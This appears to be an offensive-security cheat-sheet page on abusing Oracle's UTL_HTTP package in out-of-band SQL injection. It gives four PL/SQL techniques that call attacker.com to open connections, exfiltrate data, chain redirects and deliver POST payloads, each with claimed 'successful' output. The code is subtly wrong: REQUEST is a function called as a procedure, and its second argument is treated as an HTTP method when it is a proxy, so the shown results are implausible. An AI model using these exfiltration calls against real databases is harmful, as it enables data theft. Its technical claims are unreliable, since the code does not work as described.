

# UTL_HTTP

## Context

Within the realm of Oracle SQL, the `UTL_HTTP` package provides an interface for making HTTP requests directly from SQL statements. This becomes particularly useful in scenarios of blind out-of-band SQL injection attacks, where an attacker aims to bypass traditional defenses and exfiltrate data or execute payloads through seemingly harmless SQL functions. `UTL_HTTP` can be abused to initiate HTTP requests that communicate with an external server controlled by the attacker, facilitating covert data transfer and exploitation.

## Theory

### Core Idea

The `UTL_HTTP` package allows SQL procedures to make HTTP requests, offering a pathway for data exfiltration during SQL injection attacks. By leveraging this package, attackers can inject SQL payloads that execute HTTP requests to an external entity, transferring sensitive data or triggering actions based on the server's response. This package, when manipulated correctly, can create a persistent covert channel for data exchange without triggering immediate alarm.

### Overview Diagram



## Practice

### Technique 1: Basic HTTP Request Injection

Leverage the `UTL_HTTP` package to perform a basic HTTP request, serving as a foundation for more complex interactions.

#### Steps:

1. **Formulate SQL**: Utilize the `UTL_HTTP` package for a basic HTTP request, opening a connection to an attacker's server.

    ```plsql
    BEGIN
        UTL_HTTP.REQUEST('http://attacker.com:8080');
    END;
    ```

2. **Execution Result**: This SQL command initiates a connection to the provided URL, with the expected success message indicating execution.

    ```
    PL/SQL procedure successfully completed.
    ```

### Technique 2: Data Exfiltration via Header Manipulation

Inject data into HTTP headers in SQL procedures to exfiltrate sensitive information stealthily.

#### Steps:

1. **Inject Data**: Manipulate HTTP headers to transfer data to an external server during the SQL execution.
   
    ```plsql
    BEGIN
        UTL_HTTP.REQUEST('http://attacker.com:8080', 'HEAD', 'some data');
    END;
    ```

2. **Execution Result**: Successful execution indicates data is being sent in HTTP headers to the specified URL.

    ```
    PL/SQL procedure successfully completed.
    ```

### Technique 3: Leveraging Redirects for Stealthier Exfiltration

Utilize HTTP redirects to obscure the intentions of the network request, making it harder to detect unauthorized data movement.

#### Steps:

1. **Use Redirects**: Craft a request that exploits HTTP redirection, causing data flow between different endpoints.
   
    ```plsql
    BEGIN
        UTL_HTTP.REQUEST('http://attacker.com/a');
    END;
    ```

2. **Expected Payload**: The attacker's server responds with a redirect notice, contributing to the request's stealthiness.

    ```
    HTTP/1.1 307 Temporary Redirect
    Location: http://attacker.com/b
    ```

3. **Execution Result**: This feedback loop facilitates the covert transfer or activation of secondary payloads.

    ```
    PL/SQL procedure successfully completed.
    ```

### Technique 4: Payload Delivery with HTTP POST Method

Execute complex payloads by embedding them within HTTP POST requests, capitalizing on legitimate web functionalities.

#### Steps:

1. **Construct Payload**: Delve deeper into the `UTL_HTTP` capabilities by embedding a payload in a POST request to an attacker's endpoint.
   
    ```plsql
    BEGIN
        UTL_HTTP.REQUEST('http://attacker.com', 'POST', 'payload');
    END;
    ```

2. **Execution Result**: Ensure payload delivery is acknowledged, with the server's response indicating success.

    ```
    PL/SQL procedure successfully completed.
    ```

## Practical Tools

- **SQL*Plus**: Utilize this utility to execute your crafted SQL commands.
- **Wireshark**: Monitor outbound traffic to verify successful data exfiltration or payload delivery.
- **Burp Suite**: Analyze request headers and detect security weaknesses facilitating such injections.

Using these techniques effectively emphasizes the need for vigilant monitoring and strict input validation to prevent misuse of the `UTL_HTTP` package, underscoring its dual role in legitimate operations and as a vector for potential exploitation in SQL injection attacks.